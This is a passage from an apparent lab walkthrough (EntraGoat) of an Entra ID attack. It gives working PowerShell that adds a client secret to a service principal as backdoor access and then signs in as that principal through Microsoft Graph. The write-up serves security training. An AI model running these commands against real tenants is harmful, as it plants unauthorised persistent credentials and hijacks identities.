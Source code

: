 Let’s add a client secret to the Finance Analytics Dashboard service principal to establish backdoor access and authenticate as the SP:

```powershell
$secretDescription = "EntraGoat-Secret-$(Get-Date -Format 'yyyyMMdd-HHmmss')"

$passwordCredential = @{

    DisplayName = $secretDescription

    EndDateTime = (Get-Date).AddYears(1)

}

$newSecret = Add-MgServicePrincipalPassword -ServicePrincipalId $SP.Id -PasswordCredential $passwordCredential


# Save the added secret details

$clientSecret = $newSecret.SecretText
```



Next, disconnect the current user session with Disconnect-MgGraph, construct the client credentials, and authenticate using the service principal’s identity via Connect-MgGraph:

```powershell
$secureSecret = ConvertTo-SecureString -String $clientSecret -AsPlainText -Force

$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $SP.AppId, $secureSecret

Connect-MgGraph -TenantId $tenantId -ClientSecretCredential $credential

```



And indeed, now we are authenticated as the Finance Analytics Dashboard service principal (*Figure 15*).
